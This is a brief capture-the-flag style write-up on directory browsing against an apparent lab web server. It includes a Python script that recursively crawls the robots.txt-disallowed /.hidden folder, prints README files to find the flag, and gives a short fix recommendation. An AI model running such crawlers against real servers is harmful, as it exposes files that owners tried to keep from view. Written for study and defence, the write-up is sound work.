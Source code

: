 # Directory browsing attack

### Introduction
Directory browsing involves trying to access and read files that are stored in directories on a web server.

### Procedure
After reading robots.txt, we can notice that this file contains ``Disallow: /.hidden`` to notify crowlers to not read from this directory. This method, doesn't prevent us from scraping content from this directory so we are going to write a script in python that will display content from every file in that folder.

### Program
First things first, we start by writing a function that will return us the content of a file in the server.
```` python
def try_robots(path: str = ""):
	url = f'http://192.168.56.101/.hidden{path}'

	response = requests.get(url)

	return response.text
````

Then, we are going to use that function to get the content in each index page, which will inform us about directories and files in directory we are checking. We will then parse the index into a list of directories and files.
``` python
def filter_index(path: str = "/"):
	text = try_robots(path)

	lines = text.split('\n')

	links = [x for x in lines if x.startswith('<a href=')]
	links.reverse()

	for link in links:
		if type(link) == str:
			start_index = link.find('"') + 1
			end_index = link.find('"', start_index + 1)
			if start_index != -1 and end_index != -1:
				file = link[start_index:end_index]
				new_path = path + file
				if file != "README":
					filter_index(new_path)
				else:
					text = try_robots(new_path)
					print(f"[{new_path}]: ", text)
					if len(text) > 40:
						exit()
```

If a value of that list is `README`, we will get its content using `try_robots()` function of earlier and if it contains more than 40 characters we will know that it contains the flag we are looking for.

### How to fix
In order to fix this, it is recommended to prevent the access to this directory and not just disabling it on robots.txt.